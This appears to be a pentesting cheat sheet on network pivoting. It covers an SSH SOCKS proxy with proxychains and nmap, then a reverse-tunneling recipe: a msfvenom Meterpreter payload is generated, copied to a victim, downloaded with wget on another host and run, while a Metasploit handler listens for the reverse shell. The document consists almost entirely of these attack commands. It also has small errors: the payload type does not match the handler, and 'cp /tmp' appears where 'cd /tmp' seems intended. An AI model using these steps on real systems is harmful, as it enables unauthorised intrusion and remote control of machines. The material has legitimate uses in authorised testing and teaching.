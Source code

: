 # Pivoting

## Proxy SOCKS with SSH

```bash
$ ssh -D 9050 root@victime
$ tail /etc/proxychains.conf
...
[ProxyList]
socks4 	127.0.0.1 9050
$ sudo proxychains nmap -sT -F other_host
```

To be noted:
 - Only TCP Connect Scan is supported by proxychains (default with nmap)
 - sudo is mandatory (RAW socket by proxychains)

## Reverse tunneling from other_host

### On attacker

```bash
$ msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=other_host -f elf -o reverse.bin LPORT=4444
$ scp reverse.bin root@victim:/tmp
$ ssh -D 9050 -R victim_other_ip:4444:0.0.0.0:8000 root@victim
$ msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
msf6 exploit(multi/handler) > run
```

### On victim

```bash
$ cp /tmp
$ python -m http.server 8765
```

### On other_host

```bash
$ wget http://victim_other_ip:8765/reverse.bin
$ chmod +x reverse.bin
$ ./reverse.bin
```

